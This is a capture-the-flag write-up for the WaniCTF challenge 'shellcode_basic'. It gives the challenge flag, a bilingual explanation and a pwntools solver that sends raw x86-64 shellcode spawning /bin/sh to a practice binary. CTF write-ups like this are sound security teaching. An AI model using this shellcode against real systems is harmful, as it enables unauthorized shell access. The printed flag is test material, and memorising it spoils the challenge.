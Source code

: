 ```yaml
---
title: "04. shellcode_basic"
level: 3
flag: "FLAG{NXbit_Blocks_shellcode_next_step_is_ROP}"
writer: "EBeb"
badge: true
---
```

# 04. shellcode_basic

## 問題文

What is Shellcode?
`nc shell-basic-pwn.wanictf.org 9004`

## FLAG

`FLAG{NXbit_Blocks_shellcode_next_step_is_ROP}`

## 解法-日本語

shellcodeを入れて実行する。
特に長さ制限やバイト制限はないため、`/bin/sh`を実行する`shellcode`を送る。
環境によって問題サーバーでは`printf`が正常に実行されない場合がありましたが、入力とshellcode実行は問題ありませんでした。


## WriteUp
Insert and execute shellcode. 
There are no length or byte restrictions, so send shellcode to execute `/bin/sh`. 
Depending on the environment, there were cases where `printf` was not executed properly on the problem server, but there were no problems with input and shellcode execution.

### Solver

```
from pwn import *

pc = process("../file/chall")
# gdb.attach(pc,"break *0x40122b")
# pc.interactive()
shell_code = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
# pc.interactive()
pc.sendline(shell_code)
pc.interactive()

```
